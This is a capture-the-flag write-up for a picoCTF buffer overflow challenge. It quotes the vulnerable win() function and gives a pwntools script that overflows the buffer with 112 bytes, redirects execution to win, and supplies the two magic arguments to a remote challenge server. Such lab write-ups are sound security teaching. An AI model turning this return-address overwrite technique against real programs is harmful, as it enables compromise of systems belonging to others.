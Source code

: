 ### BUFFER OVERFLOW 2
---

![image](https://github.com/user-attachments/assets/ed8499b5-b884-4511-ad3c-b5da70e8d394)

Let's see vuln.c This challenge is similar to bof1 but it requires 2 arguments arg1 and arg2.
```
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```
Our mission is manage the payload in order to reach the line **print(buf)** which is our flag. Here is my script:

```
#!/usr/bin/python3

from pwn import *

exe = ELF('./vuln', checksec=False)

# p = process(exe.path)
p = remote('saturn.picoctf.net', 50846)

payload = b'a'*112
payload += p32(exe.sym['win']) 
payload += b'a'*4 # dummy
payload += p32(0xCAFEF00D) + p32(0xF00DF00D)

# pause()
p.sendline(payload)
p.recvuntil(payload)
p.interactive()
```

